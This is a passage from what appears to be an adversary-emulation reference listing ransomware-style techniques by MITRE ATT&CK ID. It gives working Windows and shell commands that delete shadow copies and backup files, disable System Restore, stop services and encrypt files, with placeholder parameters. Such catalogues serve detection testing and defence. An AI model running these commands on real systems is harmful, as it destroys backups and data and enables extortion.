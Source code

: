     ```powershell
    Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
    ```
    
    ```powershell
    del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
    ```
    
    ```powershell
    reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableConfig" /t "REG_DWORD" /d "1" /f
    reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableSR" /t "REG_DWORD" /d "1" /f
    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableConfig" /t "REG_DWORD" /d "1" /f
    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableSR" /t "REG_DWORD" /d "1" /f
    ```
    
    ```powershell
    vssadmin resize shadowstorage /For=C: /On=C: /MaxSize=20%
    ```
    
5. ****Service Stop (T1489)****
    
    ```powershell
    sc.exe stop #{service_name}
    net.exe stop #{service_name}
    taskkill.exe /f /im #{process_name}
    ```
    
6. ****Data Encrypted for Impact (T1486)****
    
    ```bash
    echo "#{pwd_for_encrypted_file}" | $which_gpg --batch --yes --passphrase-fd 0 --cipher-algo #{encryption_alg} -o #{encrypted_file_path} -c #{input_file_path}
    ```
    
    ```bash
    $which_7z a -p#{pwd_for_encrypted_file} #{encrypted_file_path} #{input_file_path}
    ```
    
    ```bash
    if [ $USER == "root" ]; then $which_ccencrypt #{root_input_file_path}; file #{root_input_file_path}.cpt; #{impact_command}; else $which_ccencrypt #{user_input_file_path}; file #{user_input_file_path}.cpt; #{impact_command}; fi
    ```
    
    ```bash
    $which_openssl genrsa -out #{private_key_path} #{encryption_bit_size}
    $which_openssl rsa -in #{private_key_path} -pubout -out #{public_key_path}
    $which_openssl rsautl -encrypt -inkey #{public_key_path} -pubin -in #{input_file_path} -out #{encrypted_file_path}
    ```
    